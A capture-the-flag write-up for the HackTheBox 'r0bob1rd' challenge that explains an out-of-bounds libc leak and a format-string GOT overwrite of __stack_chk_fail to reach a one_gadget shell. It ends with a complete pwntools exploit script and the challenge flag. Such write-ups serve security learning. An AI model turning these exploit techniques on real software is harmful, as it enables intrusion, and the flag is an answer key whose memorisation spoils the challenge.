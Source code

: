 # r0bob1rd
> Write-up author: jon-brandy

![image](https://github.com/user-attachments/assets/bfbb32ec-47d7-49f2-b7f6-87a5e801f3a5)


## Lessons Learned:
1. Leak LIBC by clobbering with array index.
2. Utilize FSB to perform GOT overwrite for `__stack_chk_fail()` function.
3. Using `Out-of-Bound (OOB)` bug to trigger `__stack_chk_fail()` function call.

## DESCRIPTION:

<p align="justify">I am developing a brand new game with robotic birds. Would you like to test my progress so far?</p>

## STEPS:

1. In this challenge we're given a 64-bit binary, dynamically linked, not stripped.

![image](https://github.com/user-attachments/assets/8252e70c-0f1d-46e0-8ee0-2689917d3216)

> BINARY PROTECTIONS

![image](https://github.com/user-attachments/assets/e120d82d-1c0e-4764-a3b9-da22510c16d3)

> REVIEWING THE CODE

2. Upon reviewing the code at Ghidra, found few bugs reside at the **operation()** function.

![image](https://github.com/user-attachments/assets/e7b166eb-9c58-4ebc-9090-6cbd8588e519)


3. It's very straight forward, there is a chance for us to leak libc address at the first user input (number). Because what printed to us is the value stored at the index array of initialized global variable **robobirdNames**.
4. Notice that there is no proper bound checking for our input, so if we input negative values, we could print adjacent memory address.

![image](https://github.com/user-attachments/assets/d4078e0d-16e0-4d52-a62a-b6657306453b)

5. Anyway, since it is initialized global variable, hence we can review all the entry contents address from the `.data` section.

> .DATA SECTION


![image](https://github.com/user-attachments/assets/e7b62d7d-ce07-4530-bcef-54d271a13e98)


![image](https://github.com/user-attachments/assets/2e198915-7642-4e8b-9451-38d6f2eb0b5e)


6. Notice that the **.data** section is close to **.got** section memory. So we could actually leak the libc function by passing the correct index number. Now to identify it, let's examine the mapped GOT dynamically using **GDB**.

> IN GDB


![image](https://github.com/user-attachments/assets/042d12c3-f14d-4aec-b3de-035a735ab6ec)


7. Actually to leak libc we can't use any of them, we need to choose the GOT address that if we add to the formula of the printed address, the result should be pointing to GOT address.

```MD
> FORMULA:
nobobirdNames + (input * 8) = MUST_BE_GOT_ADDRESS
```

> AVAILABLE GOT FUNCTIONS TO BE USED (INSIDE THE RED BOX)


![image](https://github.com/user-attachments/assets/4c97b94a-6869-4d26-8ccf-7712287659f1)


8. In this case, there are several GOT address can be used and in this writeup I choose the **setvbuf@got**.

![image](https://github.com/user-attachments/assets/f6f1dc49-da51-4c03-8c3b-58c7613bbf74)


9. Great! Now we need to pass **-0x8** and parse the libc leak.
10. Next, the rest is also straightforward, we just need to identify the offset for our FSB write and it seems our only GOT function overwrite candidate should be the **_stack_chk_fail()**, because that is the only function called after the FSB.


![image](https://github.com/user-attachments/assets/705cea94-48ff-4631-b228-5a22bfa6a845)


11. Great! Next, upon reviewing the correct **one_gadget** that would be used, found the candidate is the second one. As you can see below, the **R15** does pointed to null and **RDX** is not -> 0x1. However another OR condition, state that if **RDX** is an envp hence we can use it.
12. To verify it we can simply break at main then query -> `x/s *(char **) $rdx`.

#### NOTE:

```MD

# According to system V calling convention:
RDI → argc
RSI → argv
RDX → envp

int main(int argc, char *argv[], char *envp[]);
```

> RESULT

![image](https://github.com/user-attachments/assets/77a81f18-5c5d-402a-8f41-2c973ac96929)


![image](https://github.com/user-attachments/assets/0547ce86-fe38-40b0-b847-7d2e0d00a11b)


13. Awesome! Everything is going smooth. Here is the final exploit script:

> FINAL SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript="""
continue
"""

exe = './r0bob1rd'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'

library = 'glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

sh = start()

## STAGE 1: Leak and Parse LIBC Runtime Leak + Relocate LIBC Base

sh.sendlineafter(b'>', b'-8')

sh.recvuntil(b'sen: ')
get = unpack(sh.recv(6) + b'\x00' * 2)
log.info(f'RECEIVED --> {hex(get)}')
libc.address = get - libc.sym['setvbuf']
log.success(f'LIBC BASE -> {hex(libc.address)}')

gadgets = (0xe3afe, 0xe3b01, 0xe3b04)
one_gadget = libc.address + gadgets[1]
log.success(f'ONE GADGET --> {hex(one_gadget)}')

## STAGE 2: Overwrite _stack_chk_fail() + Trigger it

payload = fmtstr_payload(8, {elf.got["__stack_chk_fail"]:one_gadget}, write_size="short")

sh.sendlineafter(b'>', payload.ljust(106, b'\x90'))
# gdb.attach(sh)

sh.interactive()
```

> RESULT


![image](https://github.com/user-attachments/assets/0332c9d4-f6a1-4f8f-bf02-1ba77542d629)

14. Awesome! We've pwned it!

## FLAG:

```
HTB{S0m3t1m3s_bl0w1ng_th3_pr0gr4m_1s_g00d}
```
